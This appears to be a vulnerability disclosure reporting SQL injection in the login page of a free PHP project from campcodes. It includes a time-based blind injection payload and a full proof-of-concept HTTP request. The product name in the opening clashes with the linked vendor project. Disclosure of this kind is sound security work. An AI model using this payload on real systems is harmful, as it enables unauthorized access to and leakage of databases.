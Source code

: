 # Vulnerability Description

The Web-based Student Clearance System in PHP Free Source Code  (It is an open source project from [https://www.campcodes.com/](https://www.campcodes.com/)) has SQL injection vulnerabilities, which can lead to database information leakage.

1. BUG_Author: Jing Xiong

2. vendors: [Online College Library System using PHP/MySQLi Source Code](https://www.campcodes.com/downloads/online-college-library-system-using-php-mysqli-source-code/);

3. The program is built using the PHP/8.1.10 version;

4. Vulnerability location:  /libsystem/login.php

# Vulnerability Verification

[+] Payload:

```java
student=RIDM' AND (SELECT 8259 FROM (SELECT(SLEEP(5)))rJcs) AND 'okDV'='okDV&login=tiZF
```

POC：

```js
POST /login.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Cache-Control: max-age=0
Connection: keep-alive
Content-Length: 134
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=4dq7vcodkmkfafhok7fkld9s4r
Host: 127.0.0.1:8081
Origin: http://127.0.0.1:8081
Referer: http://127.0.0.1:8081/index.php
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
sec-ch-ua: "Google Chrome";v="119", "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

student=student%3DRIDM%27+AND+%28SELECT+8259+FROM+%28SELECT%28SLEEP%285%29%29%29rJcs%29+AND+%27okDV%27%3D%27okDV%26login%3DtiZF&login=
```

## How to verify

Build the vulnerability environment according to the steps provided by the source code author and execute the poc provided above：
![image](./sql1.png)



